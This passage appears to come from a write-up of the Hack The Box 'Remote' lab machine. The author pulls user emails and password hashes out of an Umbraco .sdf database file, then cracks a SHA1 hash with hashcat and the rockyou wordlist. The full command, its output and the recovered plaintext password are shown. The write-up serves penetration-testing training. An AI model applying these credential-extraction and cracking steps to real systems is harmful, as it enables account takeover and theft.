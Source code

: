 ![](../../.gitbook/assets/4-creds.png)

There was indeed a `.sdf` file, creatively named: `umbraco.sdf`.  This was a "standard database format" file, but I was still able to extract the data I needed using `vim`.  There was information for a few different users, including email addresses and password hashes.  I extracted the password hashes and sent them to hashcat for cracking.  

```text
zweilos@kali:~/htb/remote$ hashcat -O -D1,2 -a0 -m100 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa
Time.Started.....: Sun Feb 21 18:57:06 2021 (5 secs)
Time.Estimated...: Sun Feb 21 18:57:11 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
```